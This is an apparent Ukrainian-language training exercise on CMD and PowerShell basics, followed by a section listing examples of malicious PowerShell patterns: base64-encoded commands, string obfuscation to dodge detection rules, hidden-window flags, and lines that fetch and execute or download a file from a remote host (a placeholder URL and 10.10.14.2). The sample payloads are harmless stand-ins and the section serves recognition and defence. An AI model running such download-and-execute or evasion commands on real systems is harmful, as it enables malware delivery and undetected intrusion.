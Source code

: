 ### Виконайте завдання:
1. Основними командами є: cd, dir, cls, вони ж є однаковими для CMD та PowerShell. Спробуйте відкрити якусь папку через CMD та PowerShell. Звикніть просуватись по файловій системі через команди.
2. Запустіть Chrome через команду, спершу з помилкою, не використовуючи .\ перед exe-файлом - `C:\Program Files (x86)\Google\Chrome\Application\ .\chrome.exe`. Навчіться запускати програми через командну строку.
3. Запустити калькулятор, `calc`.
4. PowerShell використовує форму дія-сутність (Verb-Noun) для назви своїх командлетів. Наприклад, `Get-Command`.
5. `Get-ExecutionPolicy` - перевірити політику контролю виконання команд та скриптів.
6. `Set-ExecutionPolicy - ExecutionPolicy RemoteSigned`
7. `Get-Command` - переглянути всі доступні команди.
8. `Get-process` - переглянути запущені процеси
9. Фільтрування за ім'ям (taskmgr): `get-process -Name Taskmgr`
10. Фільтрування за ID: `get-process -Id <номер-процесу>`
11. Показати, що можна зробити з об'єктом - `Get-Member`
12. Фільтрування методів - `Get-Process | Get-Member -MemberType Method`
13. Використати метод kill() для процесу, спробувати знову знайти його за id чи іменем `(get-process -Id <id>).kill()`

Додаткова інформація: [Команди Powershell](https://learn.microsoft.com/en-us/powershell/scripting/powershell-commands?view=powershell-7.3)

## 7. Приклади шкідливих та підозрілих команд Powershell
1. Закодовані команди, містять в собі encoded, en, enc, та подібні параметри:
```
powershell.exe -encod VwByAGkAdABlAC0ASABvAHMAdAAgACIAdAB3AGUAZQB0ACwAIAB0AHcAZQBlAHQAIQAiAA==
```
2. Використання base64 для закодовування шкідливих команд:
```
Invoke-Expression -Command ([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('VwByAGkAdABlAC0ASABvAHMAdAAgACIAdAB3AGUAZQB0ACwAIAB0AHcAZQBlAHQAIQAiAA==')))
```
3. Використання спеціальних символів (^, +, $ та %) щоб розбити команду на текстові блоки і оминати примітивні правила детектування:
```
& ([ScriptBlock]::Create("Write-Host '$("{0}{1}{2}{2}{0}" -f 't','w','e'), $([Char] 116)$([Char] 119)$("$(([Char] 0x65))" * 2)t'"))`
```
4. Використання параметрів -nop, -noni. Команда виконується без інтерактивного вікна.
5. Використання invoke-expression чи iex щоб запустити команди, що завантажуються з віддаленого ресурсу
```
powershell.exe -nop iex "\"Write-Host `\"$((New-Object Net.WebClient).DownloadString('https://user.github.com/repo/blabla/badcode.txt'))`\"\""
```
6. Скачування файлу з віддаленого ресурсу з downloadfile:
```
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
```

[Більше інформації про шкідливе використання Powershell](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters)
